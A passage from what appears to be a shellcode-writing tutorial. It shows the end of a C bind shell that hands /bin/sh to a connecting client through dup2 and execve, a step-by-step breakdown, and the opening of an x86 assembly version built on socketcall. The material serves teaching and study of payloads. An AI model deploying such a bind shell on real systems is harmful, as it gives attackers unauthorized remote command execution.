         // Duplicate file descriptors for STDIN, STDOUT and STDERR  
        dup2(client_sockid, 0);  
        dup2(client_sockid, 1);  
        dup2(client_sockid, 2);  
      
        // Execute /bin/sh  
        execve("/bin/sh", NULL, NULL);  
        close(host_sockid);  
          
        return 0;  
    }  
    

  
This code lacks error checking and shouldn't be used as is, for a more robust
code, check my [sockets](https://github.com/abatchy17/sockets) repo.  
  

### Quick break down:

1\. Create socket  
2\. Bind socket to a local port  
3\. Listen for incoming connections  
4\. Accept incoming connection  
5\. Redirect STDIN,STDOUT and STDERR to newly created socket from client.  
6\. Spawn the shell.  
  

## Converting module to assembly

For socket programming through syscalls you'll need to make use of three
registers:  
1\. EAX should always contain 0x66, which is the number of socketcall()
defined in the linux headers.  
2\. EBX should contain the call ID for the specific socket function you want
to execute, which is defined in /usr/include/linux/net.h  
3\. ECX contains a pointer to the arguments.  
  

[![](http://i.imgur.com/OrTXm31.png)](http://i.imgur.com/OrTXm31.png)

  

    
    
    global _start  
    section .text  
      
    _start:  
        ; Socket functions should be accessed through socketcall()  
        ; References:  
        ;   1. http://man7.org/linux/man-pages/man2/socketcall.2.html  
        ;   2. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
        ; Call ids are defined in /usr/include/linux/net.h and should be put in EBX  
      
        ;  
        ; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)  
        ;  
        push byte 0x66      ; socketcall()  
        pop eax             ; EAX = 0x66  
        cdq                 ; EDX = 0x0 | Saves a byte  
        xor ebx, ebx  
        inc ebx             ; EBX = 0x1 | #define SYS_SOCKET 1  
                            ; saves a byte instead of mov bl, 1  
        push edx            ; zeroed out earlier  
                            ; protocol = 0  
        push ebx            ; SOCK_STREAM = 1  
                            ; Needed for bind(), can be used here to save a few bytes  
        push byte 0x2       ; PF_INET = 2  
        mov ecx, esp        ; ECX points to args  
        int 0x80  